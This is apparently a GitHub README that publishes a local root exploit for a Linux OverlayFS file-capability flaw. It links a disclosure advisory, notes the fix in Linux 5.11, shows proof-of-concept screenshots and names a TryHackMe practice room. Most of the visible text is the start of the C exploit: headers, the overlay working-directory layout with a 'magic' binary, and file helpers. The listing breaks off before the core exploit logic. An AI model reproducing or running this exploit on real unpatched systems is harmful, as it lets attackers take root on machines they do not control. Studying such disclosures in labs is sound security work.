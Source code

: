 In Linux 5.11 the call to `cap_convert_nscap` was moved into `vfs_setxattr`, so it is no more vulnerable.

*You can read more here:-* https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/

### Proof Of Concept (POC)

![image](https://user-images.githubusercontent.com/69868171/116479704-14835980-a84e-11eb-8bd3-eb850faf62da.png)

![image](https://user-images.githubusercontent.com/69868171/116479809-42689e00-a84e-11eb-9f26-d8ac914359b9.png)

![image](https://user-images.githubusercontent.com/69868171/116479905-6c21c500-a84e-11eb-8930-0832a5c450b1.png)

*Room Using In Testing:-* https://tryhackme.com/room/overlayfs

### Exploit Code Below;

```
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/mount.h>

//#include <attr/xattr.h>
//#include <sys/xattr.h>
int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


#define DIR_BASE    "./ovlcap"
#define DIR_WORK    DIR_BASE "/work"
#define DIR_LOWER   DIR_BASE "/lower"
#define DIR_UPPER   DIR_BASE "/upper"
#define DIR_MERGE   DIR_BASE "/merge"
#define BIN_MERGE   DIR_MERGE "/magic"
#define BIN_UPPER   DIR_UPPER "/magic"


static void xmkdir(const char *path, mode_t mode)
{
    if (mkdir(path, mode) == -1 && errno != EEXIST)
        err(1, "mkdir %s", path);
}

static void xwritefile(const char *path, const char *data)
{
    int fd = open(path, O_WRONLY);
    if (fd == -1)
        err(1, "open %s", path);
    ssize_t len = (ssize_t) strlen(data);
    if (write(fd, data, len) != len)
        err(1, "write %s", path);
    close(fd);
}

static void xcopyfile(const char *src, const char *dst, mode_t mode)
```